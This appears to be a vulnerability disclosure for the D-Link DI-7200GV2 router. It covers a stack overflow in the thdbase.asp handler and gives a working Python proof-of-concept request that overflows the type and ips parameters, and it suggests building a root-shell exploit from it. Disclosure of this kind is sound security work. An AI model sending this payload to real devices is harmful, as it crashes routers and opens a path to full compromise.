





# Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameters type and ips in the thdbase.asp function.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
First, set the nvram values of fbr_type and fbr_ips in the jhttpd binary at function sub_45B32C() via thdbase.asp.
  
Then, the function thdbase_data() retrives the values of 'fbr_type' and 'fbr_ip' from nvram.Finally,the value of 'fbr_type' and 'fbr_ip' from nvram are concatenated to the sprintf function, which leads to a buffer overflow vulnerability.  

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  

Then,we login in to 192.168.0.1.  
 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/thdbase.asp"

params = {
    "type": "a"*0x14000,
    "ips": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

And you can write your own exp to get the root shell.